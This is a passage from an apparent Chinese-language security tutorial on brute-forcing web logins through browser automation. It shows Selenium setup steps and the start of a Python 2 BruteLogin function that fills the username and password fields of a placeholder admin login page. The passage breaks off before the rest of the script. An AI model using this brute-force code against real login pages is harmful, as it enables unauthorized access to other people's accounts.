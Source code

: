 [![](assets/1698897578-b86fe6a0b9d2d0b18d41beeed4a97e0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160522-6c5f8a22-48b7-1.png)

# 0x03 浏览器自动化爆破

安装selenium  
安装浏览器驱动，加入环境变量。

```plain
#coding:utf-8



import time
import sys
from selenium import webdriver

reload(sys) 
sys.setdefaultencoding('utf-8')



def BruteLogin(user,pwd):


        browser.get('http://xxx.cn/manage/login.aspx')
        browser.implicitly_wait(7)
        elem = browser.find_element_by_name("name")
        elem.send_keys(user)
        elem=browser.find_element_by_name("pws")
        elem.send_keys(pwd)

```
